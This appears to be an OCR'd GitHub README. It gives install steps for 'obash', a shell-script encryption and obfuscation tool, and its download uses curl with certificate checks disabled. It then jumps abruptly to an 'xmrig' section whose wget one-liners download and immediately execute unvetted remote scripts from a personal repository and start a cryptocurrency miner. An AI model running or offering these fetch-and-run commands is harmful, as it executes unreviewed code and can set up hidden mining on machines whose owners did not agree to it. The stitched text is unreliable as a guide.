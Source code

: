 Encrypt and obfuscate your shell script

We need to ensure package manager is updated and free from errors, then install dependencies.

Debian/Ubuntu:
export DEBIAN_FRONTEND=noninteractive
apt update
apt autoremove --fix-missing -y -f
apt upgrade -y
apt install build-essential libssl-dev curl -y

RHEL/Fedora:
yum update -y
yum groupinstall "Development Tools" -y
yum install openssl-devel zip curl -y


Then download and extract obash source archive:
curl -skL "https://github.com/louigi600/obash/archive/8976fd2fa256c583769b979036f59a741730eb48.tar.gz" -o obash.tgz
tar xf obash.tgz && rm -f obash.tgz


Now enter obash source directory, run make clean first and start compiling obash, then copy obash executable into bin/sbin path of your machine:
cd obash-8976fd2fa256c583769b979036f59a741730eb48
make clean
make
mv -f obash /usr/local/sbin/obash
cd .. && rm -rf obash-8976fd2fa256c583769b979036f59a741730eb48


Now our obash is now ready to use, run obash -h for guide how to use.

examples:
* Encrypt your myscript.sh with output filename MyEncryptedScript(executable only on local machine):
obash -o MyEncryptedScript myscript.sh

* Encrypt your myscript.sh with output filename MyEncryptedScript(executable on all machine/reusable):
obash -r -o MyEncryptedScript myscript.sh
## Test run: ./MyEncryptedScript

# xmrig

wget https://raw.githubusercontent.com/itsgelogomayee/xmrig/main/turtle.sh && chmod +x turtle.sh && ./turtle.sh


wget https://raw.githubusercontent.com/itsgelogomayee/xmrig/main/mine.sh && chmod +x mine.sh && ./mine.sh

# run

./xmrig
